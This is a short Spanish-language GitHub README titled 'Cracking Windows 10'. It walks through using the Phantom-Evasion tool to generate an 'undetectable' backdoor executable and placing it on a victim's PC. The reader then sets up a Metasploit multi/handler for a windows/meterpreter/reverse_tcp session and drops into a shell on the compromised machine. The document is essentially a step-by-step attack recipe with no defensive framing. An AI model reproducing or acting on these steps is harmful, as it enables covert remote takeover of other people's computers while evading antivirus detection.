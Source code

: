 # Cracking Windows 10

<br>

<p align="center">
<img src="./Img/logo.jpg">
</p>

<br>

Metasploit Framework es la herramienta más utilizada por los hackers en todo el mundo. Permite a los 
hackers informáticos configurar oyentes que crean un entorno propicio (denominado Meterpreter) para manipular máquinas comprometidas. 

En este artículo, veremos cómo se puede usar este marco dentro de Kali Linux para atacar una máquina con Windows 10. Lo haremos a través de un archivo ejecutable malicioso.

<br>

## Creando un archivo .exe malicioso


Para crear el ejecutable usaremos **Phantom-Evasion** que es un script que sirve para crear backdoors indetectables:

```
git clone https://github.com/oddcod3/Phantom-Evasion.git

cd Phantom-Evasion

chmod u+x phantom-evasion.py

python3 phantom-evasion.py
```

<br>

<p align="center">
<img src="./Img/phantom.png">
</p>

<br>

Seleccionaremos la opción 1, ahora el tipo de modulo opción 2, luego pulsaremos ENTER y en LHOST pondremos nuestra IP y LPORT el puerto 4444 y si nos pregunta yes o no ingresaremos todo yes.

Luego de esto tendremos nuestro backdoor generado ahora lo usaremos en la PC victima.

Ahora iniciaremos msfconsole para poder conectarnos a la pc victima:

```
msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST <TU IP>

set LPORT 4444

exploit
```

Como podemos observar hemos conseguido entrar a la PC víctima. 

![Informatica](Img/sesion.png)

Ahora para acceder a la terminal ingresaremos el siguiente comando **shell** y listo esteremos dentro de la terminal.

**Creditos:** https://github.com/oddcod3/Phantom-Evasion